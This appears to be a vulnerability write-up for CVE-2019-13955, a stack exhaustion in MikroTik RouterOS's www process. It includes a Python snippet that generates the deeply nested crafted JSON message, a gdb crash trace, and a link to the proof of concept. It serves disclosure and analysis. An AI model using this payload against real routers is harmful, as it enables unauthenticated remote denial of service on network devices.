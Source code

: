 ### CVE-2019-13955

#### Description

The `www` process suffers from a stack exhaustion vulnerability. By sending a crafted packet to the `www` process, an unauthenticated remote user can trigger a stack exhaustion vulnerability via recursive parsing of `JSON` containing message type M.

Based on the [`routeros`](https://github.com/tenable/routeros) repository, the main part of crafted message can be generated with a simple python code snippet.

```python
msg = "{M01:[M01:[]]}"
for _ in xrange(2000):
    msg = msg.replace('[]', "[M01:[]]")
```

Against long-term `6.43.16`, the poc resulted in the following crash captured by `gdb`.

```shell
(gdb) c
Continuing.
Reading /nova/lib/www/jsproxy.p from remote target...
Reading /lib/libucrypto.so from remote target...
[New Thread 279.366]

Thread 2 "www" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 279.366]
=> 0x7746792f:  call   0x774661a9
   0x77467934:  add    ebx,0x5028
   0x7746793a:  mov    DWORD PTR [ebp-0x3c],eax
   0x7746793d:  mov    DWORD PTR [ebp-0x44],edx
0x7746792f in ?? () from target:/nova/lib/www/jsproxy.p
(gdb) info inferiors
  Num  Description       Executable
* 1    process 279       target:/nova/bin/www
(gdb) bt
#0  0x7746792f in ?? () from target:/nova/lib/www/jsproxy.p
#1  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#2  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#3  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#4  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#5  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#6  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#7  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#8  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#9  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#10 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#11 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#12 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#13 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#14 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#15 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#16 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#17 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#18 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#19 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#20 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#21 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#22 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#23 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#24 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
...
```

The poc is available at [CVE-2019-13955](https://github.com/tenable/routeros/blob/master/poc/cve_2019_13955/src/main.cpp).

#### Affected Version

This vulnerability was initially found in long-term  `6.42.11`, and was fixed since stable `6.45.1`.

### References

+ [Two vulnerabilities found in MikroTik's RouterOS](https://seclists.org/fulldisclosure/2019/Jul/20)
+ [CVE-2019-13955](https://github.com/tenable/routeros/tree/master/poc/cve_2019_13955)
+ [routeros](https://github.com/tenable/routeros)
+ [CVE-2018-1158 MikroTik RouterOS漏洞分析之发现CVE-2019-13955](https://cq674350529.github.io/2019/08/15/CVE-2018-1158-MikroTik-RouterOS%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E5%8F%91%E7%8E%B0CVE-2019-13955/)





